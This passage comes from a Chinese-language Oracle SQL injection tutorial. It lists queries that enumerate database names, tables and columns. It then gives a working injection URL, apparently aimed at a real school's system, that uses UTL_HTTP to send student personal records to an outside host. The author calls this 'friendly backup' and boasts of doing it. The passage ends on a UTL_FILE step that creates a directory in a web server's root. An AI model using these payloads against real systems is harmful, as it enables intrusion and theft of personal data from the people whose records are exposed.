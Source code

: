 获取当前连接的数据库名：

```
select SYS_CONTEXT ('USERENV', 'DB_NAME') from dual;

```

关于获取敏感的表和字段说明：

1、获取所有的字段schema：

```
select * from user_tab_columns

```

2、获取当前用户权限下的所有的表：

```
SELECT * FROM  User_tables

```

上述SQL通过添加Where条件就能获取到常见注入的敏感信息，请有心学习的同学按照上面的MYSQL注入时通过information_schema获取敏感字段的方式去学习user_tab_columns和FROM User_tables表。 ￼![enter image description here](http://drops.javaweb.org/uploads/images/835c80797450ba267bd5058a2616db9ecce632b2.jpg)￼![enter image description here](http://drops.javaweb.org/uploads/images/ad6823205b738657397eab12d61a2db9311a70af.jpg)

#### Oracle高级注入：

##### 1、友情备份

在讲Mysql的时候提到过怎么在注入点去构造SQL语句去实现友情备份，在去年注入某大牛学校的教务处的时候我想到了一个简单有效的SQL注入点友情备份数据库的方法。没错就是利用Oracle的utl_http包。Oracle的确是非常的强大，utl_http就能过直接对外发送Http请求。我们可以利用utl_http去SQL注入，那么我们一样可以利用utl_http去做友情备份。

构建以下SQL注入语句：

```
http://60.xxx.xx.131/xxx/aao_66/index.jsp?fid=1+and+'1'in(SELECT+UTL_HTTP.request('http://xxx.cn:8080/xxxx/mysql.jsp?data='||ID||'----'||USERID||'----'||NAME||'----'||RELATION||'----'||OCCUPATION||'----'||POSITION||'----'||ASSN||UNIT||'----'||'----'||TEL)+FROM+STU_HOME)

```

UTL_HTTP 会带着查询数据库的结果去请求我们的URL，也就是我注入点上写的URL。Tips：UTL_HTTP是一条一条的去请求的，所以会跟数据库保持一个长连接。而数据量过大的话会导致数据丢失，如果想完整的友情备份这种方法并不是特别可行。只用在浏览器上请求这个注入点Oracle会自动的把自己的裤子送上门来那种感觉非常的好。

￼![enter image description here](http://drops.javaweb.org/uploads/images/ea5a48bdd6ca203ca5ffa1b33561122a761026ef.jpg)

使用UTL_HTTP友情备份效果图： ￼![enter image description here](http://drops.javaweb.org/uploads/images/2ab3c805a092b31049baa7ee39592e0a5bbef3e3.jpg)

utl_http在注入的时候怎么去利用同理，由于我也没有去深入了解utl_http或许他还有其他的更实用的功能等待你去发现。

##### 使用UTL_FILE友情备份：

创建目录：

```
create or replace directory cux_log_dir as 'E:/soft/apache-tomcat-7.0.37/webapps/ROOT/selina';  

```
